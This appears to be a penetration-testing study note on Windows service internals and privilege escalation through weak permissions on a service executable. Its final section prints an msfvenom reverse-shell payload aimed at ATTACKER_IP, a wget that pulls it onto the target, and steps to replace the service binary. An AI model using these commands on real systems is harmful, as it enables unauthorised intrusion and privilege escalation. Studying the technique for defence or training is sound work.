 Windows services are managed by the Service Control Manager (SCM), which is responsible for overseeing the state of services, monitoring their current status, and providing a means to configure them as necessary.

To better understand the structure of a service, we can use the `sc qc` command:

```
sc qc <service>
```

Here, the `BINARY_PATH_NAME` parameter specifies the associated executable, while the `SERVICE_START_NAME` parameter indicates the account used to run the service.

Services have a Discretionary Access Control List (DACL) that defines permissions for actions like starting, stopping, and configuring the service. You can view the DACL using Process Hacker, available on your desktop.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

![](../../Attachments/Pasted%20image%2020240810183544.png)

Each service has a registry subkey where the `ImagePath` shows the executable and `ObjectName` indicates the account used to start the service. If configured, the DACL is stored in the `Security` subkey, and only administrators can modify these entries by default.

# Insecure Permissions on Service Executable

If a service's executable has weak permissions, an attacker could easily modify or replace it, thereby gaining the privileges of the service's account.

For example: having a service executable with (M) permission on "Everyone" group, then we can generate our own payload using msfvenom and serve it through a python webserver:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe
# Next
python3 -m http.server
# On Target
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well.